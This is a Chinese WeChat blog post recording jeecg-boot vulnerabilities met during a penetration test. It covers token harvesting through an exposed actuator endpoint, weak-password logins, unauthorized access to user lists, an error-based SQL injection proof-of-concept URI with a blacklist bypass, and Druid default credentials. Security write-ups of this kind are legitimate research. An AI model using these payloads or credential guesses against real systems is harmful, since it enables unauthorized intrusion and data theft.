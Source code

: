 #  jeecg-boot的一些漏洞记录

原创 carrypan  [ 安全艺术 ](javascript:void\(0\);)

**安全艺术** ![]()

微信号 AnQuanYiShu2022

功能介绍 闲暇小记

____

___发表于_

收录于合集

# 记录最近做项目碰到的jeecg-boot的一些漏洞

# 1.未授权访问

通过https://xxx.xxx.xxx/jeecg-
boot/actuator/httptrace接口抓取token，重点关注下token信息，比如有些带token的url请求，或者直接替换token请求一些敏感接口，再根据响应信息进一步攻击，本次案例就是一个接口泄露用户名引起的：

![]()

访问

https://xxx.xxx.xxx/jeecg-
boot/appwx/vid/wxVideo/listVideoInfos?cid=1505751480615919618&token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IuW-
ruS_oeWwj-
eoi-W6jy10aGlyZC1hcHA4NTk2In0.2wI9ewYa-21wfpsOkC3yVmrwGb10i0mfc1QAHehG97w&t=1661223869537&r=7896&os=wx

服务端返回一个用户名信息，可以进行弱口令尝试  

![]()

运气好，直接账号linshi，密码123456，成功登录

![]()

此账号非管理员，尝试通过接口文档查找，也未发现，懒的看代码，看看接口文档，用户信息都在sys目录下，直接来个/sys/user/list不香吗

发现可以直接越权查看https://xxx.xxx.xxx/jeecg-boot/sys/user/list用户信息

![]()

提取用户名，再进一步尝试弱口令，最总成功获取管理员用户一枚，登录

![]()

# 2.SQL注入

前提是需要登录系统，登录系统后直接访问如下URI

POC

/jeecg-
boot/sys/duplicate/check?dataId=&fieldName=updatexml(1,concat(0x7e,user(),0x7e),1)&fieldVal=1000&tableName=sys_log

![]()

查资料基本都是可以成功的，不晓得这里的拦截是咋回事，就简单尝试绕过下，经几次尝试，发现服务端对user(),database()等进行了黑名单校验，直接利用mysql特性，函数与圆括号中间添加注释符绕过：

![]()

  

# 3.Druid弱口令

这个漏洞也比较常见，直接访问之，一般默认就是admin/123456

URI

/jeecg-boot/druid/login.html

admin/123456

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

